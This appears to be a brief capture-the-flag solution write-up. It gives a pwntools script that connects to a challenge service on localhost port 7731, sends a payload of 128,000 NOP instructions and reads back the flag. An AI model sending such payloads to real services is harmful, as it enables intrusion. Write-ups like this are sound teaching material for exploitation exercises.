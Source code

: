 # Solution

1. Need to do some form of socket programming. Following code requires pwntools to be installed:
```py
#!/usr/bin/python3

from pwn import *

server_ip = "localhost"

conn = remote(server_ip,7731)

data = asm('nop') * 128000
conn.sendline(data)
flag = conn.recvuntil(b'}')
print(flag)
```